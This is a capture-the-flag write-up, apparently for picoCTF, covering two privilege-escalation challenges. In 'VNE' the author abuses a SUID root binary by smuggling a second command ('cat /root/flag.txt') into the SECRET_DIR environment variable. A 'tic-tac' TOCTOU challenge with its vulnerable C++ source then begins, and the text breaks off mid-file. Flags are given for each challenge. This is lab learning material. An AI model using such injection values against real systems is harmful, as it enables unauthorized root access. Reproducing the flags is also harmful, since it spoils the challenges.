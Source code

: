just like `misc/Permissions` challenge

found flag at `/root/.flag.txt`

`picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}`

### VNE

with `ls -al` found `./bin` under `~` with `root` permission

also, it set the SUID. so we can execute this binary with root permission

```
total 24
drwxr-xr-x 1 ctf-player ctf-player    20 Mar 16 07:16 .
drwxr-xr-x 1 root       root          24 Mar 16 01:59 ..
drwx------ 2 ctf-player ctf-player    34 Mar 16 07:16 .cache
-rw-r--r-- 1 root       root          67 Mar 16 01:59 .profile
-rwsr-xr-x 1 root       root       18752 Mar 16 01:59 bin
```

when execute, found it needs `SECRET_DIR` environment

when set this to `/root`, found it lists the file under `/root`

```
Listing the content of /root as root:
flag.txt
```

guess it may use `"ls " + input` stuff, so it may have commend injection issue

we can use commend `export SECRET_DIR="/root/flag.txt;cat /root/flag.txt"` to read the `flag.txt` file

`picoCTF{Power_t0_man!pul4t3_3nv_19a6873b}`

### tic-tac

TOCTOU stuff

in home directory, we have `txtreader`, `flag.txt`, `src.cpp` file. `txtreader` has root privilege with SUID

```
total 32
drwxr-xr-x 1 ctf-player ctf-player    33 Mar 16 07:26 .
drwxr-xr-x 1 root       root          24 Mar 16 02:27 ..
drwx------ 2 ctf-player ctf-player    34 Mar 16 07:24 .cache
-rw-r--r-- 1 root       root          67 Mar 16 02:28 .profile
-rw------- 1 root       root          32 Mar 16 02:28 flag.txt
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16 01:30 src.cpp
-rwsr-xr-x 1 root       root       19016 Mar 16 02:28 txtreader
```

here is `src.cpp`

:::spoiler src.cpp
```cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
```